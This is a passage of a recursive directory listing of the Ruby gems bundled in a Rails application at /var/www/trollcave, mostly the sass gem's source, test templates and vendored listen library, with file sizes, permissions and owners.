-rw-r--r--  1 rails rails  16K Sep 16  2016 sass_scss.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/lib/sass/importers:
total 28K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 13 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails 7.9K Sep 16  2016 base.rb
-rw-r--r--  1 rails rails 1.6K Sep 16  2016 deprecated_path.rb
-rw-r--r--  1 rails rails 7.6K Sep 16  2016 filesystem.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/lib/sass/logger:
total 16K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 13 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  552 Sep 16  2016 base.rb
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 log_level.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/lib/sass/plugin:
total 68K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 13 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  23K Sep 16  2016 compiler.rb
-rw-r--r--  1 rails rails 4.5K Sep 16  2016 configuration.rb
-rw-r--r--  1 rails rails  629 Sep 16  2016 generic.rb
-rw-r--r--  1 rails rails 1.4K Sep 16  2016 merb.rb
-rw-r--r--  1 rails rails 1.8K Sep 16  2016 rack.rb
-rw-r--r--  1 rails rails 1.6K Sep 16  2016 rails.rb
-rw-r--r--  1 rails rails 8.1K Sep 16  2016 staleness_checker.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/lib/sass/script:
total 180K
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 13 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  755 Sep 16  2016 css_lexer.rb
-rw-r--r--  1 rails rails  897 Sep 16  2016 css_parser.rb
-rw-r--r--  1 rails rails 105K Sep 16  2016 functions.rb
-rw-r--r--  1 rails rails  15K Sep 16  2016 lexer.rb
-rw-r--r--  1 rails rails  22K Sep 16  2016 parser.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 tree
-rw-r--r--  1 rails rails  577 Sep 16  2016 tree.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 value
-rw-r--r--  1 rails rails  338 Sep 16  2016 value.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/lib/sass/script/tree:
total 68K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  12K Sep 16  2016 funcall.rb
-rw-r--r-- 1 rails rails 4.3K Sep 16  2016 interpolation.rb
-rw-r--r-- 1 rails rails 2.8K Sep 16  2016 list_literal.rb
-rw-r--r-- 1 rails rails 1014 Sep 16  2016 literal.rb
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 map_literal.rb
-rw-r--r-- 1 rails rails 3.3K Sep 16  2016 node.rb
-rw-r--r-- 1 rails rails 4.2K Sep 16  2016 operation.rb
-rw-r--r-- 1 rails rails  460 Sep 16  2016 selector.rb
-rw-r--r-- 1 rails rails 3.9K Sep 16  2016 string_interpolation.rb
-rw-r--r-- 1 rails rails 2.1K Sep 16  2016 unary_operation.rb
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 variable.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/lib/sass/script/value:
total 96K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 arg_list.rb
-rw-r--r-- 1 rails rails 7.5K Sep 16  2016 base.rb
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 bool.rb
-rw-r--r-- 1 rails rails  24K Sep 16  2016 color.rb
-rw-r--r-- 1 rails rails  11K Sep 16  2016 helpers.rb
-rw-r--r-- 1 rails rails 3.2K Sep 16  2016 list.rb
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 map.rb
-rw-r--r-- 1 rails rails  904 Sep 16  2016 null.rb
-rw-r--r-- 1 rails rails  18K Sep 16  2016 number.rb
-rw-r--r-- 1 rails rails 3.1K Sep 16  2016 string.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/lib/sass/scss:
total 80K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 13 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails 1.7K Sep 16  2016 css_parser.rb
-rw-r--r--  1 rails rails  37K Sep 16  2016 parser.rb
-rw-r--r--  1 rails rails 4.9K Sep 16  2016 rx.rb
-rw-r--r--  1 rails rails  422 Sep 16  2016 script_lexer.rb
-rw-r--r--  1 rails rails  730 Sep 16  2016 script_parser.rb
-rw-r--r--  1 rails rails  11K Sep 16  2016 static_parser.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/lib/sass/selector:
total 84K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 13 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails 3.3K Sep 16  2016 abstract_sequence.rb
-rw-r--r--  1 rails rails 7.0K Sep 16  2016 comma_sequence.rb
-rw-r--r--  1 rails rails  11K Sep 16  2016 pseudo.rb
-rw-r--r--  1 rails rails  25K Sep 16  2016 sequence.rb
-rw-r--r--  1 rails rails 4.3K Sep 16  2016 simple.rb
-rw-r--r--  1 rails rails  14K Sep 16  2016 simple_sequence.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/lib/sass/source:
total 24K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 13 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails 7.6K Sep 16  2016 map.rb
-rw-r--r--  1 rails rails  999 Sep 16  2016 position.rb
-rw-r--r--  1 rails rails 1.3K Sep 16  2016 range.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/lib/sass/tree:
total 136K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 13 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails 2.7K Sep 16  2016 at_root_node.rb
-rw-r--r--  1 rails rails  425 Sep 16  2016 charset_node.rb
-rw-r--r--  1 rails rails 2.4K Sep 16  2016 comment_node.rb
-rw-r--r--  1 rails rails  192 Sep 16  2016 content_node.rb
-rw-r--r--  1 rails rails 1.8K Sep 16  2016 css_import_node.rb
-rw-r--r--  1 rails rails  396 Sep 16  2016 debug_node.rb
-rw-r--r--  1 rails rails 1.7K Sep 16  2016 directive_node.rb
-rw-r--r--  1 rails rails  566 Sep 16  2016 each_node.rb
-rw-r--r--  1 rails rails  396 Sep 16  2016 error_node.rb
-rw-r--r--  1 rails rails 1.4K Sep 16  2016 extend_node.rb
-rw-r--r--  1 rails rails  900 Sep 16  2016 for_node.rb
-rw-r--r--  1 rails rails 1.3K Sep 16  2016 function_node.rb
-rw-r--r--  1 rails rails 1.3K Sep 16  2016 if_node.rb
-rw-r--r--  1 rails rails 2.2K Sep 16  2016 import_node.rb
-rw-r--r--  1 rails rails  438 Sep 16  2016 keyframe_rule_node.rb
-rw-r--r--  1 rails rails 1.4K Sep 16  2016 media_node.rb
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 mixin_def_node.rb
-rw-r--r--  1 rails rails 1.6K Sep 16  2016 mixin_node.rb
-rw-r--r--  1 rails rails 7.6K Sep 16  2016 node.rb
-rw-r--r--  1 rails rails 5.7K Sep 16  2016 prop_node.rb
-rw-r--r--  1 rails rails  407 Sep 16  2016 return_node.rb
-rw-r--r--  1 rails rails 1.3K Sep 16  2016 root_node.rb
-rw-r--r--  1 rails rails 4.7K Sep 16  2016 rule_node.rb
-rw-r--r--  1 rails rails  890 Sep 16  2016 supports_node.rb
-rw-r--r--  1 rails rails  895 Sep 16  2016 trace_node.rb
-rw-r--r--  1 rails rails  969 Sep 16  2016 variable_node.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 visitors
-rw-r--r--  1 rails rails  394 Sep 16  2016 warn_node.rb
-rw-r--r--  1 rails rails  389 Sep 16  2016 while_node.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/lib/sass/tree/visitors:
total 88K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 2.6K Sep 16  2016 base.rb
-rw-r--r-- 1 rails rails 5.6K Sep 16  2016 check_nesting.rb
-rw-r--r-- 1 rails rails 9.4K Sep 16  2016 convert.rb
-rw-r--r-- 1 rails rails  12K Sep 16  2016 cssize.rb
-rw-r--r-- 1 rails rails 2.2K Sep 16  2016 deep_copy.rb
-rw-r--r-- 1 rails rails 2.3K Sep 16  2016 extend.rb
-rw-r--r-- 1 rails rails  20K Sep 16  2016 perform.rb
-rw-r--r-- 1 rails rails 3.1K Sep 16  2016 set_options.rb
-rw-r--r-- 1 rails rails  12K Sep 16  2016 to_css.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/lib/sass/util:
total 40K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 13 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  446 Sep 16  2016 cross_platform_random.rb
-rw-r--r--  1 rails rails 4.4K Sep 16  2016 multibyte_string_scanner.rb
-rw-r--r--  1 rails rails 2.9K Sep 16  2016 normalized_map.rb
-rw-r--r--  1 rails rails 4.3K Sep 16  2016 ordered_hash.rb
-rw-r--r--  1 rails rails 3.5K Sep 16  2016 subset_map.rb
-rw-r--r--  1 rails rails  142 Sep 16  2016 test.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/rails:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 8 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   63 Sep 16  2016 init.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/test:
total 16K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x  8 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 10 rails rails 4.0K Sep 16  2016 sass
-rw-r--r--  1 rails rails 2.5K Sep 16  2016 test_helper.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/test/sass:
total 480K
drwxrwxr-x 10 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x  1 rails rails 4.1K Sep 16  2016 cache_test.rb
-rwxr-xr-x  1 rails rails 1.1K Sep 16  2016 callbacks_test.rb
-rwxr-xr-x  1 rails rails 5.8K Sep 16  2016 compiler_test.rb
-rwxr-xr-x  1 rails rails  28K Sep 16  2016 conversion_test.rb
-rwxr-xr-x  1 rails rails 8.6K Sep 16  2016 css2sass_test.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 data
-rwxr-xr-x  1 rails rails 5.3K Sep 16  2016 encoding_test.rb
-rwxr-xr-x  1 rails rails  76K Sep 16  2016 engine_test.rb
-rwxr-xr-x  1 rails rails 2.6K Sep 16  2016 exec_test.rb
-rwxr-xr-x  1 rails rails  46K Sep 16  2016 extend_test.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 fixtures
-rwxr-xr-x  1 rails rails  84K Sep 16  2016 functions_test.rb
-rwxr-xr-x  1 rails rails  12K Sep 16  2016 importer_test.rb
-rwxr-xr-x  1 rails rails 1.5K Sep 16  2016 logger_test.rb
-rw-r--r--  1 rails rails  910 Sep 16  2016 mock_importer.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 more_results
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 more_templates
-rwxr-xr-x  1 rails rails  17K Sep 16  2016 plugin_test.rb
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 results
-rwxr-xr-x  1 rails rails  10K Sep 16  2016 script_conversion_test.rb
-rwxr-xr-x  1 rails rails  41K Sep 16  2016 script_test.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 scss
-rwxr-xr-x  1 rails rails  28K Sep 16  2016 source_map_test.rb
-rwxr-xr-x  1 rails rails 7.9K Sep 16  2016 superselector_test.rb
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 templates
-rw-r--r--  1 rails rails  196 Sep 16  2016 test_helper.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 util
-rwxr-xr-x  1 rails rails  14K Sep 16  2016 util_test.rb
-rwxr-xr-x  1 rails rails 4.7K Sep 16  2016 value_helpers_test.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/test/sass/data:
total 16K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 10 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails 5.2K Sep 16  2016 hsl-rgb.txt

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/test/sass/fixtures:
total 16K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 10 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails   24 Sep 16  2016 test_staleness_check_across_importers.css
-rw-r--r--  1 rails rails   17 Sep 16  2016 test_staleness_check_across_importers.scss

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/test/sass/more_results:
total 20K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 10 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  354 Sep 16  2016 more1.css
-rw-r--r--  1 rails rails  702 Sep 16  2016 more1_with_line_comments.css
-rw-r--r--  1 rails rails  972 Sep 16  2016 more_import.css

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/test/sass/more_templates:
total 20K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 10 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  308 Sep 16  2016 more1.sass
-rw-r--r--  1 rails rails  192 Sep 16  2016 more_import.sass
-rw-r--r--  1 rails rails   30 Sep 16  2016 _more_partial.sass

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/test/sass/results:
total 112K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 10 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  237 Sep 16  2016 alt.css
-rw-r--r--  1 rails rails  354 Sep 16  2016 basic.css
-rw-r--r--  1 rails rails   54 Sep 16  2016 cached_import_option.css
-rw-r--r--  1 rails rails  220 Sep 16  2016 compact.css
-rw-r--r--  1 rails rails 6.8K Sep 16  2016 complex.css
-rw-r--r--  1 rails rails  146 Sep 16  2016 compressed.css
-rw-r--r--  1 rails rails  243 Sep 16  2016 expanded.css
-rw-r--r--  1 rails rails  366 Sep 16  2016 filename_fn.css
-rw-r--r--  1 rails rails   39 Sep 16  2016 if.css
-rw-r--r--  1 rails rails   72 Sep 16  2016 import_charset_1_8.css
-rw-r--r--  1 rails rails   72 Sep 16  2016 import_charset.css
-rw-r--r--  1 rails rails   72 Sep 16  2016 import_charset_ibm866.css
-rw-r--r--  1 rails rails   11 Sep 16  2016 import_content.css
-rw-r--r--  1 rails rails  997 Sep 16  2016 import.css
-rw-r--r--  1 rails rails 1.2K Sep 16  2016 line_numbers.css
-rw-r--r--  1 rails rails 1.6K Sep 16  2016 mixins.css
-rw-r--r--  1 rails rails  420 Sep 16  2016 multiline.css
-rw-r--r--  1 rails rails  384 Sep 16  2016 nested.css
-rw-r--r--  1 rails rails   23 Sep 16  2016 options.css
-rw-r--r--  1 rails rails  443 Sep 16  2016 parent_ref.css
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 script.css
-rw-r--r--  1 rails rails  997 Sep 16  2016 scss_import.css
-rw-r--r--  1 rails rails   26 Sep 16  2016 scss_importee.css
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 subdir
-rw-r--r--  1 rails rails  162 Sep 16  2016 units.css
-rw-r--r--  1 rails rails    0 Sep 16  2016 warn.css
-rw-r--r--  1 rails rails    0 Sep 16  2016 warn_imported.css

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/test/sass/results/subdir:
total 16K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 nested_subdir
-rw-r--r-- 1 rails rails   76 Sep 16  2016 subdir.css

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/test/sass/results/subdir/nested_subdir:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   21 Sep 16  2016 nested_subdir.css

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/test/sass/scss:
total 120K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 10 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x  1 rails rails  28K Sep 16  2016 css_test.rb
-rwxr-xr-x  1 rails rails 5.3K Sep 16  2016 rx_test.rb
-rwxr-xr-x  1 rails rails  70K Sep 16  2016 scss_test.rb
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 test_helper.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/test/sass/templates:
total 228K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 10 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  243 Sep 16  2016 alt.sass
-rw-r--r--  1 rails rails  306 Sep 16  2016 basic.sass
-rw-r--r--  1 rails rails   19 Sep 16  2016 bork1.sass
-rw-r--r--  1 rails rails   20 Sep 16  2016 bork2.sass
-rw-r--r--  1 rails rails   13 Sep 16  2016 bork3.sass
-rw-r--r--  1 rails rails   12 Sep 16  2016 bork4.sass
-rw-r--r--  1 rails rails   31 Sep 16  2016 bork5.sass
-rw-r--r--  1 rails rails   28 Sep 16  2016 _cached_import_option_partial.scss
-rw-r--r--  1 rails rails   66 Sep 16  2016 cached_import_option.scss
-rw-r--r--  1 rails rails  225 Sep 16  2016 compact.sass
-rw-r--r--  1 rails rails 6.2K Sep 16  2016 complex.sass
-rw-r--r--  1 rails rails  175 Sep 16  2016 compressed.sass
-rw-r--r--  1 rails rails   29 Sep 16  2016 double_import_loop1.sass
-rw-r--r--  1 rails rails   29 Sep 16  2016 _double_import_loop2.sass
-rw-r--r--  1 rails rails  225 Sep 16  2016 expanded.sass
-rw-r--r--  1 rails rails  151 Sep 16  2016 _filename_fn_import.scss
-rw-r--r--  1 rails rails  300 Sep 16  2016 filename_fn.scss
-rw-r--r--  1 rails rails  108 Sep 16  2016 if.sass
-rw-r--r--  1 rails rails   66 Sep 16  2016 import_charset_1_8.sass
-rw-r--r--  1 rails rails  205 Sep 16  2016 import_charset_ibm866.sass
-rw-r--r--  1 rails rails  193 Sep 16  2016 import_charset.sass
-rw-r--r--  1 rails rails   46 Sep 16  2016 import_content.sass
-rw-r--r--  1 rails rails   31 Sep 16  2016 _imported_charset_ibm866.sass
-rw-r--r--  1 rails rails   31 Sep 16  2016 _imported_charset_utf8.sass
-rw-r--r--  1 rails rails   28 Sep 16  2016 _imported_content.sass
-rw-r--r--  1 rails rails   30 Sep 16  2016 importee.less
-rw-r--r--  1 rails rails  204 Sep 16  2016 importee.sass
-rw-r--r--  1 rails rails  226 Sep 16  2016 import.sass
-rw-r--r--  1 rails rails  103 Sep 16  2016 line_numbers.sass
-rw-r--r--  1 rails rails   48 Sep 16  2016 mixin_bork.sass
-rw-r--r--  1 rails rails  910 Sep 16  2016 mixins.sass
-rw-r--r--  1 rails rails  227 Sep 16  2016 multiline.sass
-rw-r--r--  1 rails rails   15 Sep 16  2016 nested_bork1.sass
-rw-r--r--  1 rails rails   15 Sep 16  2016 nested_bork2.sass
-rw-r--r--  1 rails rails   15 Sep 16  2016 nested_bork3.sass
-rw-r--r--  1 rails rails   15 Sep 16  2016 nested_bork4.sass
-rw-r--r--  1 rails rails   21 Sep 16  2016 nested_import.sass
-rw-r--r--  1 rails rails   54 Sep 16  2016 nested_mixin_bork.sass
-rw-r--r--  1 rails rails  335 Sep 16  2016 nested.sass
-rw-r--r--  1 rails rails   28 Sep 16  2016 options.sass
-rw-r--r--  1 rails rails  357 Sep 16  2016 parent_ref.sass
-rw-r--r--  1 rails rails   30 Sep 16  2016 _partial.sass
-rw-r--r--  1 rails rails   17 Sep 16  2016 same_name_different_ext.sass
-rw-r--r--  1 rails rails   17 Sep 16  2016 same_name_different_ext.scss
-rw-r--r--  1 rails rails   19 Sep 16  2016 _same_name_different_partiality.scss
-rw-r--r--  1 rails rails   18 Sep 16  2016 same_name_different_partiality.scss
-rw-r--r--  1 rails rails 1.6K Sep 16  2016 script.sass
-rw-r--r--  1 rails rails   21 Sep 16  2016 scss_importee.scss
-rw-r--r--  1 rails rails  262 Sep 16  2016 scss_import.scss
-rw-r--r--  1 rails rails   28 Sep 16  2016 single_import_loop.sass
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 subdir
-rw-r--r--  1 rails rails  320 Sep 16  2016 units.sass
-rw-r--r--  1 rails rails   66 Sep 16  2016 warn_imported.sass
-rw-r--r--  1 rails rails   69 Sep 16  2016 warn.sass

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/test/sass/templates/subdir:
total 24K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   36 Sep 16  2016 import_up1.scss
-rw-r--r-- 1 rails rails   36 Sep 16  2016 import_up2.scss
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 nested_subdir
-rw-r--r-- 1 rails rails   91 Sep 16  2016 subdir.sass

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/test/sass/templates/subdir/nested_subdir:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   25 Sep 16  2016 _nested_partial.sass
-rw-r--r-- 1 rails rails   23 Sep 16  2016 nested_subdir.sass

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/test/sass/util:
total 20K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 10 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x  1 rails rails 3.8K Sep 16  2016 multibyte_string_scanner_test.rb
-rwxr-xr-x  1 rails rails 1.3K Sep 16  2016 normalized_map_test.rb
-rwxr-xr-x  1 rails rails 2.7K Sep 16  2016 subset_map_test.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/vendor:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 8 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 listen

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/vendor/listen:
total 64K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   77 Sep 16  2016 CHANGELOG.md
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 CONTRIBUTING.md
-rw-r--r-- 1 rails rails  317 Sep 16  2016 Gemfile
-rw-r--r-- 1 rails rails  432 Sep 16  2016 Guardfile
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 lib
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 LICENSE
-rw-r--r-- 1 rails rails  989 Sep 16  2016 listen.gemspec
-rw-r--r-- 1 rails rails  116 Sep 16  2016 Rakefile
-rw-r--r-- 1 rails rails  14K Sep 16  2016 README.md
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 spec
-rw-r--r-- 1 rails rails 3.8K Sep 16  2016 Vagrantfile

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/vendor/listen/lib:
total 16K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 listen
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 listen.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/vendor/listen/lib/listen:
total 60K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 9.5K Sep 16  2016 adapter.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 adapters
-rw-r--r-- 1 rails rails  13K Sep 16  2016 directory_record.rb
-rw-r--r-- 1 rails rails 9.7K Sep 16  2016 listener.rb
-rw-r--r-- 1 rails rails  663 Sep 16  2016 turnstile.rb
-rw-r--r-- 1 rails rails   38 Sep 16  2016 version.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/vendor/listen/lib/listen/adapters:
total 28K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 2.2K Sep 16  2016 bsd.rb
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 darwin.rb
-rw-r--r-- 1 rails rails 2.3K Sep 16  2016 linux.rb
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 polling.rb
-rw-r--r-- 1 rails rails 2.2K Sep 16  2016 windows.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/vendor/listen/spec:
total 24K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 listen
-rw-r--r-- 1 rails rails 2.2K Sep 16  2016 listen_spec.rb
-rw-r--r-- 1 rails rails  606 Sep 16  2016 spec_helper.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 support

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/vendor/listen/spec/listen:
total 80K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 adapters
-rw-r--r-- 1 rails rails 5.0K Sep 16  2016 adapter_spec.rb
-rw-r--r-- 1 rails rails  41K Sep 16  2016 directory_record_spec.rb
-rw-r--r-- 1 rails rails 8.5K Sep 16  2016 listener_spec.rb
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 turnstile_spec.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/vendor/listen/spec/listen/adapters:
total 28K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  796 Sep 16  2016 bsd_spec.rb
-rw-r--r-- 1 rails rails  816 Sep 16  2016 darwin_spec.rb
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 linux_spec.rb
-rw-r--r-- 1 rails rails 2.1K Sep 16  2016 polling_spec.rb
-rw-r--r-- 1 rails rails  638 Sep 16  2016 windows_spec.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-3.4.19/vendor/listen/spec/support:
total 48K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  19K Sep 16  2016 adapter_helper.rb
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 directory_record_helper.rb
-rw-r--r-- 1 rails rails  732 Sep 16  2016 fixtures_helper.rb
-rw-r--r-- 1 rails rails 4.9K Sep 16  2016 listeners_helper.rb
-rw-r--r-- 1 rails rails  246 Sep 16  2016 platform_helper.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-rails-5.0.4:
total 24K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 MIT-LICENSE
-rw-r--r--  1 rails rails 4.3K Sep 16  2016 README.md

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sass-rails-5.0.4/lib:
total 20K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 rails
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 sass
-rw-r--r-- 1 rails rails   21 Sep 16  2016 sass-rails.rb

